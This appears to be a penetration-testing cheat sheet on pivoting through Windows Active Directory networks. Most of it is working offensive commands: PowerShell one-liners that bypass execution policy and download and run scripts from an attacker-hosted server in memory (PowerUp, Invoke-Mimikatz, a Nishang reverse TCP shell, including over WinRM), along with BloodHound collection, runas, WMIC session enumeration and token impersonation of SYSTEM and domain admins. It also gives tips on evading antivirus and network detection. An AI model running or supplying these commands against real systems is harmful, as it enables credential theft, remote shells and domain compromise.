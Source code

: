 # Pivoting

Pivoting means to move across machines in an environment. This article is about using different techniques to achieve both enumeration of the domain, popping shells, and executing exploits to gain further access. Of course we use the prevalence of Powershell in modern Windows environments to our advantage. We also string together many of these tricks towards efficient and stealthy hacking with a small footprint. Powershhell can do a lot straight into memory without dropping files to disk. BOX01 will be the name of the example box in this article. 10.10.10.10 is also just an example of what would be your local IP address when performing such attacks. Hosting files for download from kali is easy using `python -SimpleHTTPServer 80`

It can also be wise to here set up a local certificate on the server and use HTTPS/443 to avoid detection by network security controls.

Most of these tricks can be employed with only a domain user.

### Downloading/uploading files

Downloading files to boxes willsometimes be necessary, but don't forget that Powershell has the ability to do so much both remotely and execute straight in memory, which is better when you need to be a ninja or bypass things like Antivirus.

This will download a file to the current folder with the same name. An interactive powershell is not necessary for running these commands. They can be ran straight from CMD.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');"`

This will download to a specific folder and with a specific name as specified in the second argument of the DownloadFile function.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');"`

### BloodHound

BloodHound is a tool for mapping out the entire domain graphically.

`Powershell -exec bypass`

`Import-module sharphound.ps1`

`Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing`

### Remoting

Once a domain user is acquired, a lot can be done in terms of remoting. In AD environments, a shell on a box is barely required given a certain set of criteria. One a domain user as been acquired you can use numerous commands to work remotely on boxes you have access to either through domain or local privileges on the remote box. Windows has three ways of providing authenticated access: credentials, hash or tokens. You can see those differnet types of access below:

If file shares are available on a box you can use dir on the path without ever getting prompted for a password given that you already have a shell as the user you want to authenticate as. This means if you somehow got a shell without credentials or a hash, you still have your token to verify your identity to remote services. See command below for a simple verification.

`dir \\BOX01\c$\`

If you however don't have a shell but the credentials of a domain user you can use the somewhat old school [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490994%28v=technet.10%29). This \_will \_prompt you for password, but can be ran without a shell from your own machine.

/netonly : Indicates that the user information specified is for remote access only.

`runas /netonly /FQDN\user cmd.exe`

Run the following command to execute powershell and get on a remote box

`runas /netonly /user:customer\ank powershell`

Using WMIC, check which users have sessions on a remote machine. Local administrator privileges are not necessary to execute this remotely.

```
wmic /node:box01.lab.local path win32_loggedonuser get antecedent
```

Powershell supports WinRM natively, which allows remote execution of commands. Here is how to execute a command on a remote box the current user has access to only using tokens, \(no prompt for password or PTH\). Here the hostname command is used for verification, but you can essentially replace it with any command, like powershell.

`Invoke-Command -ComputerName BOX01 -Scriptblock {hostname}`

### Powerview

Powerview is a super useful set of tools for enumerating a domain. It is part of the much larger toolset of Powersploit, and development is huge on this, so things change all the time.The script and full command list for Powerview can be found here:

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

In powerview, there is a super useful function called `Find-LocalAdminAccess` which enumerates which machines the current user is local administrator on. This can be very useful, as you can then remotely execute things like mimikatz on those boxes straight into memory to get the credentials of domain users. If you need an overview of what groups and users are local admin on every box in the environment you can use `Invoke-EnumerateLocalAdmin`

If you want to go hail mary and fuck shit up you can run every single module in Powerview:

In PowerUp.ps1, add `Invoke-AllChecks` at the bottom of the file. This makes the powershell script execute that function straight into memory after the string has been downloaded. This works for any function inside a powershell-script.

`Powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”`

### Mimikatz

Similar as with powervioew, add a line at the bottom of the ps1 file stating the command you want to execute.  Immediate results straight in the terminal!

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

### Shells

Ninshang shells are the shit [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"
```

We can do the same thing remotely to a box we have access to using WinRM.

```powershell
Invoke-Command -ComputerName BOX01  -Scriptblock {Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClien
t).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"}
```

Should also start looking into using HTTPS shells here to avoid detection.

### Token impersonation

We can do token impersonation completely without Meterpreter, which is really nice. This trick spawns a new thread, but also works in the same thread. However, if you type whoami it might still show the old user. If you however spawn a new process and migrate to that you will have a shell as the account you are impersonating.

Invokes token impersonation on a domain user. If this doesn't work you can try impersonating SYSTEM and then dropping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

### Invoke-Kerberoast

kerberoasting is a technique

[https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)

[https://room362.com/post/2016/kerberoast-pt1/](https://room362.com/post/2016/kerberoast-pt1/)

